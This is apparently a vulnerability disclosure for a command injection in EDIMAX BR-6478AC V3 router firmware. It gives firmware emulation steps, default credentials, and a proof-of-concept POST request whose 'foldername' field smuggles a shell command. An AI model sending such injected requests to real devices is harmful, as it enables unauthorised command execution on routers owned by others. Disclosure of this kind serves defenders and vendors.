







# EDIMAX RCE
**description**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0045f5c4 function and foldername in /bin/boa


## Firmware
**brand**:edimax   

**product**:AC1200 Wave 2 Dual-Band Gigabit Router   

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 


using ghidra we can know the action is formDiskCreateShare

and the relate web page is as follows and url of page is http://192.168.2.1/disksharefolder.htm:


## analyze
to finish the command inject should add a account at first in this url:http://192.168.2.1/accountmng.htm.  

otherwise it will show that "Owner should not be NULL!"

after creater a owner we can start the command injection
Using ghidra we can know that the post parameter "foldername" will be sprintf as the second input parameter which will be executed



The details of the function as follows:

**addr**:0045f9ec  
**function**: FUN_0045f5c4
**parameter**:foldername


# poc
Burp Suite change the packet as follows
```
POST /boafrm/formDiskCreateShare HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 172

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/disksharefolder.htm

Cookie: webuicookie=16041634271804289383

Upgrade-Insecure-Requests: 1


folderpath=%2Fvar%2Ftmp%2Fusb%2Fsda1&samba_user1=ON&permission=0&Add_Share_Folder=Apply+Changes&submit_url=%2Fdisksharefolder.htm&foldername=a"\necho 123 > /tmp/poc.txt \\"
```
the result of POC is as follows, you can find the /tmp/poc.txt was created after poc


[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3